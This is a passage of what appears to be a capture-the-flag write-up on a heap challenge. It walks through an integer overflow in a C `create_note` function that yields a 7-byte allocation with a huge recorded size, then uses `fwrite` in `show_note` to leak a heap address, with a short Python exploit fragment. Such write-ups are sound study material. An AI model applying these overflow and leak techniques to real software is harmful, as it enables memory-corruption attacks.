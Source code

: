 It allows us to malloc any size and even small size :  
```c
109 datanote_t * create_note(unsigned int size, param_t *params) {
110         if (size > params->maxsize) {
111                 printf("Note too big.\n");
112                 return 0;
113         }
114         int allocsize = size | 0x80;
115         datanote_t * note = (datanote_t*)malloc(allocsize + 8);
116         note->size = size;
117         return note;
118 }
```
We will always skip the `if` as we overwrote `param->maxsize` with the maximal value for an int.  

Now, what happen if we pass a size of `0xffffffff` ? :

- we skip the `if` because `0xffffffff > 0xffffffff` is not true
- `0xffffffff | 0x80 == 0xffffffff`
- `0xffffffff + 8 == 0x7` integer overflow :) , so it calls `malloc(0x7)`
- `note->size = 0xffffffff`

This will be useful later.


# Leaking heap base address
Let's take a look at `show_note` :  
```c
121 void show_note(datanote_t * note) {
122         if(!note) {
123                 printf("No Note.\n");
124                 return;
125         }
126
127         printf("<------------ NOTE 1 ------------>\n");
128         fwrite(&(note->data), note->size, 1, stdout);
129         printf("\n");
130         printf("<-------------------------------->\n");
131         printf("\n");
132 }
```

With the out-of-bounds write, we can overwrite `note->size`, moreover `fwrite` doesn't care of null bytes so we can leak some data placed after `note->data`.  
```py
info("leaking heap address...")
create_note(0)

create_note(127)
delete_note()

create_note(0)
delete_note()
# this free'd chunk now contains a heap pointer
```
